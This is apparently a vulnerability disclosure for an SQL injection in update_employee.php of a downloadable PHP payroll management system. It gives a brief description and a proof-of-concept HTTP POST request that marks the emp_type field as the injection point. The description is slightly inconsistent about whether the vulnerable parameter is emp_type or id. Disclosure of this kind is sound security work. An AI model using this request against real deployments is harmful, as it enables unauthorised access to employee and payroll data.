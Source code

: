 # payroll-management-system-in-php has sql injection in update_employee.php

## supplier 
https://code-projects.org/payroll-management-system-in-php-with-source-code/
## Vulnerability parameter
update_employee.php

## describe

An unrestricted SQL injection attack exists in payroll-management-system in update_employee.php. The parameters that can be controlled are as follows: $emp_type. This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the value of   $emp_type parameter is obtained in function , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/2f4d0c2f-a989-42d9-8db9-d1e6dc11520f)



## POC

```
POST /update_employee.php HTTP/1.1
Host: payroll
Content-Length: 75
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://payroll
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://payroll/home_employee.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=85u4m47klj7ldjr47mclti8mr6
Connection: close

id=1&emp_type=1*
```



**Result**

get databases 

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)
